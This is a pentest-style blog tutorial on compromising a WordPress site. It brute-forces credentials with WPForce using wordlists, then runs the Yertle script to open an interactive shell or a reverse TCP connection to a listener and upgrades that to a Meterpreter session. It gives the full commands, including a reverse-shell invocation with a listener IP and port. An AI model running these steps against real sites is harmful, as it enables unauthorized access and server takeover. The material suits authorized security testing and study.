 ```yaml
---
title:  "Reverse Shell in Wordpress with WPForce"
date:   2021-08-08 18:20:00 +0000
categories: [techniques]
tags: [web exploitation,wordpress]
---
```



Reverse Shell in Wordpress with WPForce and Yertle

Imagine the scenario where you are presented with a WordPress site during a pentest and want to get in.   
Standard 'author?' requests don't give you the name of any users and you need to look else where.   
One nice alternative to using WPScan to brute force the username and password field is WPForce.   
Taken from the WPForce website, link: [WPFORCE](https://www.n00py.io/category/pentesting 'WP-FORCE')


"
Unlike WPScan, which performs brute force login attempts against the login page of WordPress, WPForce uses authenticated API calls to test the validity of credentials.  While most security plugins are wise to this method, it does provide slightly more stealth.
"


So first, clone yourself a copy of WPForce

`git clone https://github.com/n00py/WPForce.git`

Once downloaded, parse the user, password and website deatils:

`python wpforce.py -i usr.txt -w pass.txt -u "http://www.[website].com"`

Once the script completes hopefully the Username and Password is dicovered. However if not choose different word-lists that are more appropriate to your scenario, maybe you get lucky.


![img-description](/images/WPForce-1.png)
_executing the script_

![img-description](/images/WPForce-2.png)
_Example of a PAssword Found sucessfully_

Having figured out the username and password to a Wordpress CMS site and now want to gain a shell.   

Normally you would either have to circumvent the upload restrictions on the Wordpress page, which can be time consuming with a lot of trial and error or disguise an upload file within a custom built plugin. Again something potentially time consuming to achieve, this is where WPForce comes in.    

WPForce is a useful tool that will create an interactive shell or a reverse TCP connection to a meterpreter listener. It also has lots of other interesting features like hooking to the BEEF Framework.    

To start with, make sure you have the python 'Requests' HTTP libraries installed, you can install them using PIP.   

`pip install requests`

Now we are set lets start..   

`Arguments - -t URL, -u username, -p password, -v verbose, -li localhost, -lp localport, -r reverse or -i interactive, -a User Agent.`

{% include codeHeader.html %}
`python yertle.py -t http://192.168.0.122/wordpress -u admin -p admin -v -li 192.168.0.100 -lp 80 -r`

![img-description](/images/Yertle-1.png)
_Executing The Script_

From here we have an interactive shell with limited functionality.   

![img-description](/images/Yertle-2.png)
_Interactive Shell_

A simple directory listing from within the web server from an interactive shell.   

![img-description](/images/Yertle-3.png)
_Interactive Shell_

Now setup a Meterpreter listener to wait for our connection.   

![img-description](/images/Yertle-5.png)
_Interactive Shell_

Now we simply type 'meterpreter' and add the IP and Port details.   

![img-description](/images/Yertle-6.png)
_Interactive Shell_

We receive the meterpreter session in metasploit.   

![img-description](/images/Yertle-7.png)
_Interactive Shell_

Now we can continue our enumeration from Metasploit.   

